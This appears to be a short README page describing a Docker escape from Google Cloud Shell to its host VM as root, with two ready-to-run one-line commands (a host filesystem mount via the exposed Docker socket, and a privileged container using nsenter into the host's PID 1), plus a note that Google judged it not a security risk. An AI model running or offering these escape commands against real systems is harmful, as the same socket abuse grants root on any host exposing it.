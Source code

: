 # GCP Cloud Shell Docker Escape
This allows anyone to access the host VM that is running the Cloud Shell Docker container as the root user. Just run one of the following commands from within your GCP Cloud Shell to escape it. This was originally reported to Google Security and it was determined to not be a security risk. The host is isolated from other GCP users and as of recently they even let you use your own Docker container (based off of Cloud Shell) for your own Cloud Shell, so the escape is working as intended.

## v1 (The original version)
**Source:** https://twitter.com/SpenGietz/status/1166752505889316864  
**Command:** sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash  
![Example of the original Docker escape](./images/EscapeExample.jpg)  
**Note:** It was pointed out by another user on Twitter (@Quintus23M) that the command above is not actually a full Docker escape. It essentially mounts the host file system within the container, giving you access to the host, but not giving you full root access to it. That user kindly responded with an alternative command to fully escape the container and be the root user on the host VM (v2 below).  

## v2 (The better version)
**Source:** https://twitter.com/Quintus23M/status/1166828814091112449  
**Command:** sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh  
	- I personally replace "debian" with "ubuntu" and "sh" with "/bin/bash", but it's all preference.  
![Example of the better Docker escape](./images/BetterEscapeExample.jpg)
